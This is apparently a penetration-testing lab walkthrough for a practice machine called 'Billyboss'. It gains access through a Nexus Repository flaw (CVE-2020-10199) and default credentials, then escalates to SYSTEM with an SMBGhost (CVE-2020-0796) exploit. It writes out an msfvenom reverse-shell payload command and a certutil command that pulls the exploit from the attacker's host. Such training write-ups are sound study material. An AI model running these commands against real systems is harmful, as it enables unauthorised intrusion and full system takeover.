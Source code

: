 #### Enumeration

The website on port 8081 is running Sonatype Nexus service version 3.21.0-05. The credential is nexus///nexus.(only guess...refer to the official walkthrough)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.08_22h46m50s_001_.png)

We can use [CVE-2020-10199](https://www.exploit-db.com/exploits/49385). I modify the exploit codes to download the ```nc.exe``` from my pc for executing the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_12h50m27s_002_.png)

The executable file upload successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h12m33s_003_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h13m45s_004_.png)

We modify the codes again to execute the reverse shell command.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h15m22s_005_.png)

We get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h16m17s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h20m36s_007_.png)

#### Privilege Escalation

Uploading ```winPEASx86.exe``` to check the vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h31m06s_008_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h31m34s_009_.png)

According to the listed system information this machine may have smbghost vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_13h38m18s_010_.png)

Downloading the [exploit](https://github.com/danigargu/CVE-2020-0796) visual studio project. We need Visual Studio (or may be use MSBulid) to compile the project.

I use the Visual Studio 2022 Community Edition and install the desktop development with C++.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h15m36s_011_.png)

Upgrading the project automatically and setting the platform to x64.(*target server installed the .NET Framework 4.8)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h15m37s_012_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h15m38s_013_.png)

Generating shellcode with msfvenom. (*if we don't replace the shellcode after executing the exploit it will pop up the another command prompt window with authority\system permission, but in the webshell we can't switch to another command prompt)

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.127 LPORT=80 -f dll -f csharp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h24m40s_014_.png)

Replacing the shellcode.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h26m36s_015_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h26m37s_016_.png)

Building the project.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h31m37s_017_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h32m37s_018_.png)

We upload the exploit file to target server.

```
certutil -f -urlcache http://192.168.49.127/cve-2020-0796-local.exe cve-2020-0796-local.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h33m37s_019_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h34m37s_020_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h34m38s_021_.png)

Executing the exploit.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h38m38s_022_.png)

We get the shell with authority\system permission.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Billyboss/Billyboss_2021.12.12_15h38m50s_023_.png)
